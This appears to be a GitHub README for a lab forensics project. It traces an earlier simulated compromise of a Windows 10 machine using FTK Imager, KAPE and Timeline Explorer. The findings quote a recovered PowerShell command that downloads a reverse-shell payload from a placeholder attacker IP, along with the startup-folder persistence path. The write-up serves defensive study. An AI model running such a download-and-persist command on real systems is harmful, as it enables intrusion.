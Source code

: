 # WINDOWS FORENSICS

## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier Windows 10 red team simulation, where I compromised a lab machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing disk images, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## WALKTHROUGH:

## ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:
| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:
- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.
- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.
- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.
- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.
This provided a clear chronological picture of the attack.

---

## SUMMARY
- Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:

---

> ⚠️ Disclaimer
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.

---
